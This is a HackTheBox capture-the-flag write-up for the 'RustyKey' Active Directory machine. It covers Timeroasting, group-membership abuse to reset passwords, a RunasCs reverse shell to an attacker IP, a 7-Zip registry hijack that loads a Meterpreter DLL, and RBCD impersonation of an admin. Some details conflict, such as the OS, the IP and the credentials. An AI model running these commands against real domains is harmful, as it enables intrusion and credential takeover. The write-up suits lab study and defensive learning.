# RustyKey - HackTheBox Writeup



## Machine Information

- **Name**: RustyKey
- **Difficulty**: Hard
- **OS**: Linux
- **IP Address**: 10.10.11.75

## Summary

RustyKey is a Hard-rated Windows (Active Directory) machine that involves exploiting chained vulnerabilities in AD, including Kerberos and delegation flaws. The initial foothold is gained through Timeroasting a service account hash using provided credentials, privilege escalation involves abusing the AddSelf right and performing an AdminSDHolder bypass to reset privileged user passwords, and root access is achieved via Resource-Based Constrained Delegation (RBCD) to impersonate a domain administrator.

## Reconnaissance

Add host mappings in `/etc/hosts` as discovered:

```
10.10.11.75   rustykey.htb dc.rustykey.htb
```

Run fast scans using `nmap`:

```bash
# Nmap 7.95 scan initiated Tue Nov  4 09:16:35 2025 as: /usr/lib/nmap/nmap -sCV -T5 -onmap_result 10.10.11.75
Nmap scan report for rustykey.htb (10.10.11.75)
Host is up (0.051s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-04 14:16:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 2s
| smb2-time: 
|   date: 2025-11-04T14:16:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  4 09:16:58 2025 -- 1 IP address (1 host up) scanned in 23.60 seconds
```
## Active Directory Enumeration with BloodHound

With the provided credentials, the first step is to enumerate the domain to understand its structure, users, computers, and potential attack vectors.

To get a comprehensive view of the Active Directory environment, we use BloodHound. We run the Python collector with our credentials to gather data about users, groups, computers, and permissions. But the result seems to failed..

```Bash
bloodhound-python -u rr.parker -p 'B#15HEBLIW3A' -d rustykey.htb -ns 10.10.11.75 --collectionmethod All --zip
```




### Enumerating and Accessing SMB Shares

Enumerating Server Message Block (SMB) shares is a crucial step in accessing network resources, typically followed by attempting to connect to those shares to discover valuable files or gain a foothold.

Using crackmapexec (nxc): If we have valid credentials (or want to test known defaults), nxc is highly efficient for listing shares and confirming read/write permissions.

```Bash
# For authenticated enumeration
nxc smb <TARGET_IP> -u <username> -p <password> --shares
# For Kerberos authenticated enumeration (as used on RustyKey)
nxc smb dc.rustykey.htb -u rr.parker -p '8#t5HE8LIW3A' -d rustykey.htb -k --shares
```

This process typically reveals standard shares like ADMIN$, C$, IPC$, and domain shares like NETLOGON and SYSVOL.



#### Active Directory Enumeration with enum4linux

We tried to attempt to use the legacy tool enum4linux for Active Directory enumeration on the target machine (10.10.11.75) but failed too as the server wont allow the user rr.parker to do so.


### Active Directory Enumeration with Impacket

**1) Enumerate Domain Users with GetADUsers.py**

We use Impacket's GetADUsers.py script to enumerate all domain users. use `-k` to instructs the script to use Kerberos authentication. 

The output provides a comprehensive list of all users within the domain, including their last logon and password last set times. 

```Bash
GetADUsers.py -k -all -dc-ip 10.10.11.76 -dc-host dc.rustykey.htb rustykey.htb/ 
```



**2) Enumerate Domain Computers with GetADComputers.py**

Then, we use the GetADComputers.py script from Impacket to query for other Active Directory objects, such as computer accounts. 

```Bash
GetADComputers.py -k -dc-ip 10.10.11.76 -dc-host dc.rustykey.htb rustykey.htb/
```



**3) Acquire TGT and Enumerate**

We use `getTGT.py` from Impacket to validate the initial credentials and set the ticket cache:

```bash
getTGT.py 'rustykey.htb/rr.parker:8#t5HE8LIW3A'
export KRB5CCNAME=rr.parker.ccache 
klist
```



### 2nd Attempt to Enumerating and Accessing SMB Shares

Now that we gained the session ticket via rr.parker's ticket granting ticket (TGT). We tried again to enumerate the smb service using the credentials. This time it works!! We gained the insight of each users inside the domain

```bash
sudo nxc smb dc.rustykey.htb -d rustykey.htb -u rr.parker -p '8#t5HE8LIW3A' -k --users
```



We also run the option `--shares` to enumerate the shares inside the smb service. Here we know that we can read 3 shares `IPC$`, `NETLOGON`, and `SYSVOL`.

```bash
sudo nxc smb dc.rustykey.htb -d rustykey.htb -u rr.parker -p '8#t5HE8LIW3A' -k --shares
```







### Enumerating Using LDAP

LDAP provides a structured way to query the Domain Controller (DC) for user attributes, group memberships, and object properties, offering a richer dataset than standard SMB or NetBIOS enumeration.

**1. Group Enumeration with nxc ldap**
We use nxc ldap (CrackMapExec) with our initial valid credentials and the Kerberos flag (-k) to quickly enumerate all groups within the domain.

```bash
nxc ldap dc.rustykey.htb -d rustykey.htb -u rr.parker -p '8#t5HE8LIW3A' -k --groups
```



**2. Detailed Object Enumeration with ldapsearch**
We utilized the standard ldapsearch tool to extract specific details about all objects, including their distinguished names (DNs) and unique object identifiers.

```bash
ldapsearch -H ldap://<TARGET_IP> -u rr.parker -w '8#t5HE8LIW3A' -b 'dc=rustykey,dc=htb' '(objectClass=user)' objectSid
```

The raw data returned for the objectSid attribute is in a **Base64 encoded string format**. This is standard for LDAP queries when retrieving binary values. We cannot directly read the SID from this output; it must first be decoded.



**3. Decoding SIDs**
The final step is to decode the Security Identifiers (SIDs) into human-readable user and computer names.

- **SIDs**: SIDs are fundamental to Windows security, representing users, groups, and computer accounts (e.g., S-1-5-21-...).

- **RID:** The last number in the SID is the Relative Identifier (RID), which uniquely identifies the object within the domain.

Using custom script i manage to decode the SID:
```script
import base64
import struct
import sys

def decode_sid(base64_sid):
    """Decodes a Base64-encoded binary SID into the standard S-1-5-21-... format."""
    try:
        binary_sid = base64.b64decode(base64_sid)
    except Exception:
        return f"Error: Invalid Base64: {base64_sid}"

    # SID Structure:
    # 1 byte: Revision
    # 1 byte: SubAuthorityCount
    # 6 bytes: IdentifierAuthority (Big-Endian)
    # 4 bytes * SubAuthorityCount: SubAuthorities (Little-Endian)

    if len(binary_sid) < 8:
        return "Error: Binary SID too short."

    # Unpack the first 8 bytes: Revision (B), SubAuthorityCount (B), and Identifier Authority (6s)
    revision, sub_authority_count, identifier_authority_raw = struct.unpack('<BB6s', binary_sid[:8])
    
    # Identifier Authority is usually 5 (NT Authority), but extract it cleanly
    identifier_authority = int.from_bytes(identifier_authority_raw, byteorder='big')

    # Start constructing the SID string
    sid_string = f"S-{revision}-{identifier_authority}"

    # Extract and append Sub-Authorities (little-endian unsigned 32-bit integers)
    offset = 8
    for _ in range(sub_authority_count):
        if offset + 4 <= len(binary_sid):
            sub_authority = struct.unpack('<I', binary_sid[offset:offset+4])[0]
            sid_string += f"-{sub_authority}"
            offset += 4
        else:
            sid_string += "-<Error: Missing Sub-Authority>"
            break

    return sid_string

# --- Main execution loop ---
if __name__ == "__main__":
    if sys.stdin.isatty():
        print("Usage: cat <file_of_b64_sids> | python3 sid_decoder.py")
        print("Or: ldapsearch ... | cut ... | python3 sid_decoder.py")
        sys.exit(1)

    print("Decoded SIDs:")
    for line in sys.stdin:
        # Extract the Base64 string from your formatted output
        parts = line.strip().split('#')
        if len(parts) >= 3:
            b64_sid = parts[2].strip()
            # The DN is in parts[1] (e.g., ' CN=user, Users, domain.htb ')
            user_dn = parts[1].strip()
            
            decoded = decode_sid(b64_sid)
            print(f"{user_dn}: {decoded}")
        elif len(parts) == 1 and parts[0].strip():
            # If the input is just a list of raw B64 SIDs
            decoded = decode_sid(parts[0].strip())
            print(decoded)
```


### 2nd Attempt to Enumerate with BloodHound

We run the Python collector again with our credentials and it works too



Let's bring up the bloodhound's docker and import the zip file into the bloodhound gui to be analyze. Here we start with the user `rr.parker`.



## Initial Foothold

### Timeroasting the Domain

#### Active Directory Enumeration and Service Account Identification

Let's recall what we saw in the result of GetADComputers. In the output, we observed many computer accounts (e.g., IT-Computer2$, Support-Computer3$) whose names ended with a dollar sign ($). This syntax identifies them as machine accounts or computer objects. Given that the machine requires a hard difficulty, this observation immediately suggested a Timeroast attack.


#### Exploitation: Hash Extraction and Cracking

The Timeroast attack targets machine accounts whose passwords were set based on predictable values (like NTP time fields) and are often reused across services.

Here i found the github to exploit this vulnerability

https://github.com/SecuraBV/Timeroast



We used the timeroast.py script to query the DC and extract these vulnerable hashes, specifically targeting the account IT-Computer3$.

We then successfully cracked the extracted hash using a dedicated cracking script against a common wordlist:

```Bash
python3 timecrack.py timeroasthash.txt /usr/share/wordlists/rockyou.txt
```

This critical step granted us the credentials necessary for lateral movement:



Let's goo the script successfully returned multiple hashes, identifiable by their **RID (Relative Identifier)** and **Hash format (ms-ad-smb-ntp-passwords)**. Now we save the hashes into a txt file called `timeroasthash.txt` and tried to use hashcat with mode 18200 to crack the hashes.



Hurmm wandering around the internet i noticed that the github have an extra-scripts which contain a timecrack.py file which we can use to crack the hashes. Let's goo we now successfully cracked the password for the account associated with RID 1125:

```bash
Cracked RID 1125 password: Rusty88!
```

We compare the RID with the result we gained from the LDAPSearch and notice that the username with the cracked password is `IT-Computer3$`.



**New Computer Account Credential:** `IT-Computer3$ / Rusty88!`

### 💻 Dive into the User IT-Computer3$

With the successful Timeroasting attack, we gained the critical credentials for the computer account: `IT-Computer3$ / Rusty88!`. The first action is to confirm these credentials grant us access to the Domain Controller (DC).

### Enumerating and Accessing SMB Shares 

We used nxc smb (CrackMapExec) with the Kerberos flag (-k) to test the new credentials against the DC. We confirms that the computer account rustykey.htb\IT-Computer3$: is successfully authenticated to the DC via SMB. I tried to enumerate more for the smb services but seems the same like the user `rr.parker`.


### Enumerating with BloodHound 

Now, we analyze the BloodHound data to plot a path for lateral movement and the User Flag.

**Target: IT-COMPUTER3**



**1. Lateral Movement: AddSelf to Helpdesk**
The first critical edge discovered is the `AddSelf` right held by the `IT-Computer3$` computer account over the `HELPDESK@RUSTYKEY.HTB` group. This permission allows the computer account to add itself to this group, immediately inheriting the `HELPDESK` group's permissions.


**2. Escalation Target: ForceChangePassword**
After gaining membership in `HELPDESK`, we examine the group's rights. The `HELPDESK` group holds the powerful `ForceChangePassword`, `AddMember`, and `GenericWrite` permissions over multiple domain users, including `bb.morgan`, `gg.anderson`, `ee.reed`, and `dd.ali` and domain group like `Protected Objects`.

This means we can reset the password for any of these users to a known value, effectively taking control of their accounts.



**3. Identifying Membership and Access**

Users like `bb.morgan` and `gg.anderson` are members of the `IT` group, and ee.reed is a member of the `SUPPORT` group. Both the `IT` and `SUPPORT` groups are members of `REMOTE MANAGEMENT USERS`. This confirms that the users we target have the ability to connect remotely to the DC.



**4. The Roadblock: Protected Users and AdminSDHolder**

Crucially, both the `IT` and `SUPPORT` groups are members of the `PROTECTED OBJECTS` group. This membership triggers the `AdminSDHolder` process, which means **any password or group membership changes we make to these users will be reverted by the Domain Controller within an hour**. To gain a stable shell and the flag, we must use our `IT-Computer3$` privileges to remove the protected group membership before resetting the password.



***The ultimate goal becomes:** Bypass AdminSDHolder by removing the IT group from PROTECTED OBJECTS, then resetting a target user's password to gain the User Flag.*

### Getting Users's shell

First, we use the compromised IT-Computer3$ account to gain membership in the HELPDESK group (via the AddSelf right) and attempt to reset the passwords of target users.

```bash
# IT-COMPUTER3$ adds itself to the HELPDESK group.
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember 'HELPDESK' 'IT-COMPUTER3$'
```



To prevent the password reset from being reverted, we must first remove the group responsible for the protection (IT) from the Protected Objects group using our current IT-Computer3$ privileges. We want to start with out first target bb.morgan.

```bash
# Remove 'IT' group from 'Protected Objects'.
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'Protected Objects' 'IT'
```


We then reset all the users password into a common password like `Password@123`.

```bash
# 2. Reset the target user password immediately (PIC 28)
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password <username> "Password@123"
```



Now that we got our first target new credentials 😈, we gain request the user's TGT to gain an active session to the domain as `bb.morgan`



Finally, we use the new ticket to connect via evil-winrm and let's goo we're in the server!, We now move to the desktop directory to retrieve the user flag:



**User Flag:** `318a18efcf666d537eadb8d568d8c473`

## 👑 Root Escalation: Targeting the SUPPORT Group

After gaining the User Flag, the internal memo found on bb.morgan's desktop directs us to the SUPPORT group, which has temporary extended access for "registry-level adjustments." This group is the key to the Root Flag.



**1. Identifying the Target User and Protection**

We check the BloodHound again to enumerate further:

- Target User: EE.REED@RUSTYKEY.HTB is identified as a member of the SUPPORT@RUSTYKEY.HTB group. 



- The SUPPORT group is a member of PROTECTED OBJECTS@RUSTYKEY.HTB , confirming that ee.reed is also subject to the AdminSDHolder rollback.



**2. Failure Cycle: Incorrect Bypass Sequence**
An initial attempt to reset ee.reed's password fails due to a Kerberos error related to unsupported encryption type, which is common when attempting to request a TGT without the necessary flags after a password change.



**3. Executing the Final AdminSDHolder Bypass**

To ensure a stable session and bypass the protection for the SUPPORT group, we repeat the successful AdminSDHolder bypass method using our powerful IT-Computer3$ credentials.

```bash
# 1. Remove 'SUPPORT' group from 'Protected Objects'
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember "PROTECTED OBJECTS,CN=Users,DC=rustykey,DC=htb" "SUPPORT"
```


We then requested the TGT ticket of the ee.reed to receive an active session to the domain.



**4. Attempted Shell and Pivot**

We failed to connect to the DC using evil-winrm with the ee.reed TGT due to an "Invalid token" GSSAPI error, indicating a Kerberos session issue, likely due to a specific security configuration on the DC blocking direct WinRM sessions even with a valid TGT for this user context.



### 💥 Execution of Reverse Shell as ee.reed

**1. Execute Payload using RunasCs.exe**

Because a direct WinRM shell failed impersonating ee.reed, we must pivot from the bb.morgan shell and execute a reverse shell into the server as ee.reed. Let's win-rm again into the server as bb.morgan.



We upload a custom tool (RunasCs.cs) which allow us to execute code as the another user in another user shell (for this case is ee.reed).



We first need to compile the .cs file into an .exe file first to execute the tool.



We then execute the tool using the compromised ee.reed credentials.

```bash
.\RunasCs.exe ee.reed Password@123 "powershell.exe -e -r 10.10.14.95:4444"
```

This command tells the target system to spawn a PowerShell process under the context of ee.reed and establish a reverse shell connection back to our IP and port (4444).



**2. Gaining the High-Privilege Shell**

Don't forget we need listen on the port (4444). The execution is successful, and a reverse PowerShell session is opened. Voilà, we're in!



### 🔍 Deep Enumeration and DLL Hijacking Setup

**1. AD User and Group Enumeration**

We conduct queries to identify privileged users and groups accessible from the shells:

- User Listing: Get-ADUser confirms ee.reed and backupadmin accounts are enabled (PIC 47).



- Domain Information: Get-ADDomainController confirms the DC IP (PIC 50).



- Privileged Users: Get-ADGroupMember reveals backupadmin is a member of Enterprise Admins (PIC 48), making them the ideal target for final impersonation.



- Target Group Membership: Get-ADPrincipalGroupMembership confirms ee.reed is a member of the Support group.



**2. Identifying the DLL Hijacking Vector**

The internal memo hinted at "registry-level adjustments" related to the SUPPORT group's archiving tool. This points to the 7-Zip context menu handler.

Application Check: We confirm the 7-Zip file manager (7zFM.exe) version.



Registry Path: We query the registry key associated with the 7-Zip context menu handler (Context Menu Handlers\7-Zip) and its CLSID ({23170F69-40C1-278A-1000-000100020000}). Following the CLSID shows the DLL loaded is C:\Program Files\7-Zip\7z-zip.dll.



Permissions Check: We check file permissions on the 7-Zip directory, noting that Authenticated Users/Users have Read/Execute ((RX)) access, and the high-privilege groups we control (like SUPPORT) have the necessary permissions to modify registry keys controlling this path (PIC 53).

This establishes that by modifying the DLL path in the registry, we can hijack the process of any user who triggers the 7-Zip context menu.



**3. Staging the Payload**

We prepare the malicious DLL payload for the hijacking attack:

- Generate DLL: Create an x64 Meterpreter reverse TCP payload saved as backdoor.dll (PIC 54).



- Upload DLL: From the existing shell (e.g., bb.morgan's shell), we upload the backdoor.dll to a writable location like C:\tmp.



**4. Hijacking the Registry Key**

Using the elevated privileges we possess, we modify the registry key responsible for loading the 7-Zip DLL. We redirect the InprocServer32 value to point to our malicious backdoor.dll located in C:\tmp.



**5. Gaining a Meterpreter Shell as mm.turner**

We set up a Metasploit handler to catch the reverse connection. When server triggers the vulnerable 7-Zip context menu action, the registry key forces the DC process to load and execute our malicious DLL.

The handler successfully catches the incoming connection and we're in as mm.turner. The resulting session is confirmed to be running as RUSTYKEY\mm.turner. 

- But there is a catch we NEED to be quick as the sessions seems to closed very fast...



### 👑 Final Escalation: Resource-Based Constrained Delegation (RBCD)

**1. Identifying Delegation Rights**

We look again at the BloodHound which clearly shows that the user mm.turner is:

- A member of the DELEGATIONMANAGER@RUSTYKEY.HTB group, a group holds the AddAllowedToAct permission over the Domain Controller (DC) computer object itself.




### 👑 Final Root Access: Resource-Based Constrained Delegation (RBCD)

This final step leverages the high privileges gained via the compromised IT-Computer3$ account's rights over the Domain Controller (DC) object itself to perform an RBCD attack and impersonate a domain administrator.

**1. Configuring RBCD on the DC**
Using the ee.reed shell (or an account with GenericWrite rights on the DC object), we modify the DC's delegation properties to trust the compromised IT-COMPUTER3$ machine account.

- Initial Check: The delegation property (PrincipalsAllowedToDelegateToAccount) on the DC is initially empty (PIC 61).  

```bash
# Set the DC to allow delegation from the IT-Computer3$ account
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```



- Execution: We use Set-ADComputer to configure the DC to allow delegation from our controlled machine account.

```bash
# Set the DC to allow delegation from the IT-Computer3$ account
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount "IT-COMPUTER3$"
```



**2. Impersonating the Administrator**
We use the Kerberos extensions S4U2Self and S4U2Proxy to impersonate the privileged backupadmin user to the DC's CIFS service, leveraging the newly configured RBCD.

```bash
# Request Service Ticket (ST) impersonating backupadmin to the CIFS service
getST.py -spn 'cifs/DC.RUSTYKEY.HTB' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!'
```



**3. Retrieving the Root Flag**
The successful execution saves a service ticket (.ccache), which we use with wmi-exec.py to gain a shell as the impersonated user.

```bash
export KRB5CCNAME=./backupadmin@cifs_DC.RUSTYKEY.HTB.ccache
wmi-exec.py -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
```



Now that we're in, we navigate to the Administrator's desktop to retrieve the final flag.



**Root Flag:** `8d0e29cfeb73a61429bd9576884870e5`

## PWNED



## Conclusion
The machine has been successfully compromised, and both flags have been captured.

---
*This writeup is for educational purposes only. Always ensure you have proper authorization before testing security vulnerabilities.*